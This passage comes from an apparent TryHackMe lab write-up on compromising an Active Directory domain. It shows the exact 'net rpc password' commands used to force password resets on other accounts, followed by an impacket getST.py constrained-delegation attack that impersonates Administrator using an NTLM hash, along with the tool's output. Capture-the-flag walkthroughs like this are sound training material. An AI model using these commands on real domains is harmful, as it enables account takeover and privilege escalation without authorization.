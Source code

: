 Lets make user <span style="color:#61ffe5">SHAWNA_BRAY</span> owned on BloodHound so moving on to user <span style="color:#61ffe5">CRUZ_HALL</span> I have to perform <mark style="background: #D2B3FFA6;">Force Change Password</mark> from user <span style="color:#61ffe5">SHAWNA_BRAY</span> so lets do it ->
```bash
┌──(kali㉿kali)-[~/Downloads/Tryhackme/Reset]
└─$ net rpc password "CRUZ_HALL" "StrongShiv8" -U "thm.corp"/"SHAWNA_BRAY"%'StrongShiv8' -S "thm.corp"
```
{: .nolineno}
{: .nolineno}
![Image](Pasted%20image%2020240229230220.png)
_Again got the same services permission_
moving on laterally I got user <span style="color:#61ffe5">DARLA_WINTERS</span> which have <mark style="background: #D2B3FFA6;">GenericWrite</mark> permission that needs to be abused by user <span style="color:#61ffe5">CRUZ_HALL</span> .
But the SPN tickets are not crackable so I tried the <mark style="background: #D2B3FFA6;">Force Change Password</mark> method and it worked ->
```bash
┌──(kali㉿kali)-[~/Downloads/Tryhackme/Reset]
└─$ net rpc password "DARLA_WINTERS" "StrongShiv8" -U "thm.corp"/"cruz_hall"%'StrongShiv8' -S "thm.corp"
```
{: .nolineno}
{: .nolineno}
I got these services ->
![Image](Pasted%20image%2020240301144750.png)
_Services can be accessed_
Now I have <mark style="background: #D2B3FFA6;">AllowedToDelegate</mark> permission that needs to be abused so lets see how according to bloodhound path ->
![Image](Pasted%20image%2020240301144947.png)
_getST.py Tool_
Before that I need to generate the NTLM hash of the password of darla_winters ->
![Image](Pasted%20image%2020240301154802.png)
_NTLM hash of password of darla_winters_
I will be using <mark style="background: #FF5582A6;">getST.py</mark> Tool from impacket that will impersonate as user <span style="color:#61ffe5">Administrator</span> and generate a TGT ticket ->

```bash
┌──(kali㉿kali)-[~/Downloads/Tryhackme/Reset]
└─$ python3 /opt/Tools/impacket/examples/getST.py -spn 'cifs/haystack.thm.corp' -impersonate 'administrator' -altservice 'cifs' -hashes :3A9BB08C656640AC3DBF4F8038755264 'thm.corp/darla_winters'
Impacket v0.11.0 - Copyright 2023 Fortra

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Changing service from cifs/haystack.thm.corp@THM.CORP to cifs/haystack.thm.corp@THM.CORP
[*] Saving ticket in administrator@cifs_haystack.thm.corp@THM.CORP.ccache
```
{: .nolineno}
{: .nolineno}
Lets export this ticket into the environment variable **<span style="color:#fd77f8">KRB5CCNAME</span>** ->
```bash
┌──(kali㉿kali)-[~/Downloads/Tryhackme/Reset]
└─$ export KRB5CCNAME=./Administrator@cifs_haystack.thm.corp@THM.CORP.ccache
```
{: .nolineno}
{: .nolineno}
